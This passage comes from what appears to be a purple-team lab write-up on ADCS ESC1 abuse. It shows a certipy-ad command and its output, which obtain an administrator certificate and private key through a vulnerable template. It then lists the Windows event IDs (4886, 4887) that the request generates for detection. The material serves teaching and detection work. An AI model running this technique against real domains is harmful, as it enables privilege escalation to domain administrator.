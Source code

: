 ### Request a certificate

From the attacker machine we can request a certificate using the vulnerable ESC1 template.
```
└─$ certipy-ad req -u attacker@purpleteam.local -p '1attacker*' -ca DC01-ca -template Vuln-ESC1 -upn administrator@purpleteam.local -dc-ip 172.16.0.1
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 19
[*] Got certificate with UPN 'administrator@purpleteam.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

## 3.3 Event logs

2 ADCS events are being generated : 

- Certificate Services received a certificate request (event id 4886)
![ESC1-4886.jpg](ESC1/ESC1-4886.jpg)

- Certificate Services approved a certificate request (4887)
